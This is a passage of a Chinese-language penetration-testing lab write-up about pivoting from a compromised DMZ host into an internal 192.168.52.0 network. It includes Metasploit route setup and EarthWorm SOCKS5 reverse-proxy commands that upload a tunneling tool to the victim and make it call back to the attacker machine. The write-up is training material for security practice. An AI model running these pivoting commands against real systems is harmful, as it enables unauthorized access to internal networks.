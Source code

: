 ![截图](8c8630e01549cfc4b79266874b4fe976.png)

## 路由与socks5代理 

我们获取了两个sessions，因为kali无法与52段的主机进行通信，所以我们需要在web1上增加一条去往192.168.52.0的路由

![截图](43e500f39283ccbfd4ba80999afae361.png)

路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建socks5反向代理服务。

在攻击机上执行如下：

```
./ew_for_linux64 -s rcsocks -l 2080 -e 5678
```

![截图](3197b98c05eed6cd92346b5d98aed1c4.png)

在DMZ区域的Web1上传ew_for_linux64，通过执行如下命令实现：

```
sessions 1
upload /home/tom/ew_for_linux64 /tmp/ew_for_linux64
nohup ./ew_for_linux64 -s rssocks -d 192.168.111.128 -e 5678
```

